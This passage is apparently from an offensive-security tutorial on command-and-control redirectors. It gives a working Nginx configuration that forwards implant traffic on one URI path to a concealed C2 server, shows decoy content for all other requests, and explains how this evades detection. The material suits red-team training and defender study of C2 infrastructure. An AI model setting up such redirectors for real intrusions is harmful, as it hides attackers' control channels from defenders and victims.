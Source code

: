 ## Types of C2 Redirectors

Different operational requirements call for specialized types of redirectors. Each type is optimized for specific communication channels and offers unique advantages. Let's explore the most commonly used redirector types with detailed implementation examples.

### HTTP/HTTPS Redirectors

HTTP/HTTPS redirectors are the most widely used type due to their ability to blend in with normal web traffic, which is rarely blocked in corporate environments. These redirectors proxy HTTP/HTTPS traffic between implants and the C2 server, making the communication appear as legitimate web browsing.

#### Nginx Implementation

Nginx serves as an excellent platform for HTTP redirectors due to its performance, flexibility, and low resource footprint. Here's a comprehensive configuration example:

```nginx
server {
    listen 80;
    listen 443 ssl;
    server_name legitimate-looking-domain.com;

    ssl_certificate /etc/letsencrypt/live/legitimate-looking-domain.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/legitimate-looking-domain.com/privkey.pem;

    access_log /var/log/nginx/legitimate-looking-domain.com.access.log;
    error_log /var/log/nginx/legitimate-looking-domain.com.error.log;

    # Critical: Only forward specific URIs to avoid detection
    location /news/api/v1/ {
        proxy_pass https://actual-c2-server.com:443/api/;
        proxy_ssl_server_name on;
        proxy_ssl_name actual-c2-server.com;
        proxy_set_header Host actual-c2-server.com;
        
        # Hide original headers
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Real-IP $remote_addr;
    }

    # Serve legitimate content for all other requests
    location / {
        root /var/www/legitimate-looking-domain.com;
        index index.html;
    }
}
```

This configuration offers several important security features:

- **Dual Protocol Support**: Listens on both HTTP (port 80) and HTTPS (port 443), allowing the redirector to handle both encrypted and unencrypted traffic.
- **Selective Routing**: Only traffic to specific URI patterns (`/news/api/v1/`) is proxied to the C2 server, while all other requests receive legitimate content, creating a convincing facade.
- **Header Management**: Preserves the client's IP address in headers via `X-Forwarded-For` and `X-Real-IP`, providing valuable information to operators without exposing the actual C2 server.
- **SSL/TLS Termination**: Handles the SSL/TLS encryption, allowing inspection and manipulation of traffic if necessary.
